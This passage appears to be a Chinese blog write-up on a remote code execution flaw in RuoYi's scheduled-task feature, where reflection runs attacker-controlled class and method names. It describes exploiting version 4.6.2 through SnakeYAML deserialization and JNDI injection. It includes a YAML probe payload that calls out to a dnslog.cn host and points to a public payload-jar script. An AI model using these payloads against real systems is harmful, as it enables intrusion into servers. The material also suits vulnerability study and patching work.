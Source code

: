 
第二个`invokeMethod`这个方法通过反射来加载测试类

```java
if (StringUtils.isNotNull(methodParams) && methodParams.size() > 0){
    Method method = bean.getClass().getDeclaredMethod(methodName, getMethodParamsType(methodParams));
    method.invoke(bean, getMethodParamsValue(methodParams));
}
```

这大概就是定时任务加载类的逻辑


## 漏洞原因

接着我们新增一个定时任务，看看在创建的过程中对调用目标字符串做了哪些处理

抓包可以看到直接调用了`/monitor/job/add`这个接口

![漏洞原因](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/5.webp)

可以看到就只是判断了一下，目标字符串是否包含`rmi://`，这就导致导致攻击者可以调用任意类、方法及参数触发反射执行命令。

![漏洞原因](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/6.webp)

![漏洞原因](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/7.webp)

由于反射时所需要的：类、方法、参数都是我们可控的，所以我们只需传入一个能够执行命令的类方法就能达到getshell的目的，该类只需要满足如下几点要求即可：

- 具有public类型的无参构造方法
- 自身具有public类型且可以执行命令的方法


## 4.6.2

因为目前对调用目标字符串限制不多，so直接拿网上公开的poc打吧！

- 使用Yaml.load()来打SnakeYAML反序列化
- JNDI注入


### SnakeYAML反序列化

探测SnakeYAMLpoc：

```java
String poc = "{!!java.net.URL [\"http://5dsff0.dnslog.cn/\"]: 1}";
```


利用SPI机制-基于ScriptEngineManager利用链来执行命令，直接使用这个师傅写好的脚本：https://github.com/artsploit/yaml-payload

1. 把这块修改成要执行的命令

![4.6.2](https://gitee.com/hzleii/imgs/raw/main/stellar/post/2024/ruoyi-rce/8.webp)

2. 把项目生成jar包
